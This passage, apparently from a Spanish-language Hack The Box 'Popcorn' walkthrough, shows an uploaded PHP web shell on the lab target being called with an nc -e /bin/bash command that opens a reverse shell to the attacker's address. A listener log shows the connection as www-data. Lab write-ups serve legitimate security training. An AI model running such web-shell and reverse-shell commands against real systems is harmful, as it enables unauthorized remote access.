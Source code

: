 ![""](/assets/images/htb-popcorn/popcorn-web9.png)

![""](/assets/images/htb-popcorn/popcorn-web10.png)

Ahora como siempre, nos ponemos en escucha por el puerto 443 y procedemos a entablarnos una reverse shell.

```bash
http://10.10.10.6/torrent/upload/8808ea0b7cf49a6fb69bcdb20aeac84a4fd9974f.php?cmd=nc 
 -e /bin/bash 10.10.14.27 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.6] 34180
whoami
www-data
```
